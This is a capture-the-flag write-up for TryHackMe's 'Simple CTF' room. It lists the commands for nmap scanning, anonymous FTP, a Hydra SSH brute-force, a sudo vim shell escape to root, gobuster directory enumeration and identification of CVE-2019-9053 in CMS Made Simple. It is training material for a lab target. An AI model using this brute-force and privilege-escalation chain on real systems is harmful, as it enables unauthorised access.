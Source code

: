 # Simple CTF Writeup (TryHackMe)

## Challenge Overview

Simple CTF is a beginner-friendly room focused on basic enumeration, brute-forcing, and privilege escalation. It involves working with FTP, SSH, web directories, and exploiting misconfigurations like sudo privileges.

---

## Initial Enumeration

Ran an Nmap scan to identify open services:

```bash
sudo nmap <target-ip> -sS -T4 -A -oN init_scan
```

![2025-05-07_18-01](https://github.com/user-attachments/assets/249132e9-6b7f-4303-bc0d-592a8ec2bd78)

**Discovered Ports:**

* 21 (FTP)
* 80 (HTTP)
* 2222 (SSH)

---

## FTP Access

Attempted anonymous login to FTP:

```bash
ftp <target-ip>
```

![2025-05-07_18-12](https://github.com/user-attachments/assets/4555aed6-5920-413c-965f-5af762475c2d)

Retrieved `ForMitch.txt` which hinted that the user `mitch` had a weak password.

![2025-05-07_18-17](https://github.com/user-attachments/assets/65949bbc-4005-4ebe-a87c-fa58acf12892)

---

## SSH Brute Force

Used Hydra to brute-force SSH credentials:

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 <target-ip> ssh
```

![2025-05-07_18-21](https://github.com/user-attachments/assets/0e11d534-66da-4edb-8394-8bfb0d29fa7e)

**Credentials Found:**

* Username: `mitch`
* Password: `secret`

Logged into the system:

```bash
ssh -p 2222 mitch@<target-ip>
```

![2025-05-07_18-22](https://github.com/user-attachments/assets/be323de4-a303-43a6-abd2-65089b6baa7c)

---

## User Flag

Located `user.txt` under Mitch's home directory:

```bash
cat user.txt
```

![2025-05-07_18-24](https://github.com/user-attachments/assets/ea6cb32e-e514-4254-806d-5071493b7e2a)

First flag obtained.

---

## Privilege Escalation

Performed manual enumeration:

* Discovered user `sunbath` but no immediate lateral movement.
* Found that `vim` could be run as root with sudo:

```bash
sudo -l
```

![2025-05-07_18-30](https://github.com/user-attachments/assets/0a2be8cf-0cd8-4382-826f-eaa91391e084)
![2025-05-07_18-46](https://github.com/user-attachments/assets/d59cbcf2-190c-44fb-9c94-281ebfbc1ca9)

**Exploit using GTFOBins (vim + sudo):**

![2025-05-07_19-53](https://github.com/user-attachments/assets/9f42c087-9c5e-4b1e-a2ae-b7e337719268)

```bash
sudo vim -c ':!/bin/sh'
```

![2025-05-07_18-47](https://github.com/user-attachments/assets/a0c69728-81ea-44b8-b69e-c1d0d0f62dc6)

Got root shell.

Located the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```

![2025-05-07_18-47_1](https://github.com/user-attachments/assets/8f1adc45-57b3-4c91-b7fa-348df5d6271e)

Root flag obtained.

---

## Web Enumeration

Ran Gobuster to enumerate web directories:

```bash
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-07_18-49_1](https://github.com/user-attachments/assets/616fb2f9-cb68-4d8c-80c8-57352bf234ba)
![2025-05-07_18-49](https://github.com/user-attachments/assets/43dc1a40-f0b4-4bc2-ad7a-af70e89b9c7a)

Discovered:

* `/simple` directory

Visited `http://<target-ip>/simple` and identified the CMS:

* **CMS Made Simple v2.2.8**

![2025-05-07_18-50](https://github.com/user-attachments/assets/efea4421-d460-407f-a26a-edb38be87f07)
![2025-05-07_18-51](https://github.com/user-attachments/assets/ebf646a8-0a60-4200-9f37-a2cbdff374ff)

Searched for known vulnerabilities. The question hint led to the **CVE for the News Module SQL injection vulnerability**:

![2025-05-07_18-53_2](https://github.com/user-attachments/assets/36f75bf9-6e88-4460-a1f2-90a4dcf723ec)
![2025-05-07_18-53](https://github.com/user-attachments/assets/3bf0495d-6924-46b5-8844-a1bc4173bbdc)

* **CVE-2019-9053**
* **SQLi**

---

## Conclusion

![2025-05-07_18-53_1](https://github.com/user-attachments/assets/a08acf4c-6985-4dbf-8254-61fe218c0e84)

This room tested core concepts:

* Anonymous FTP enumeration
* SSH brute-force using Hydra
* Web directory scanning and CMS identification
* Privilege escalation with Vim using GTFOBins

Simple CTF demonstrates how small misconfigurations and weak credentials can lead to full system compromise.
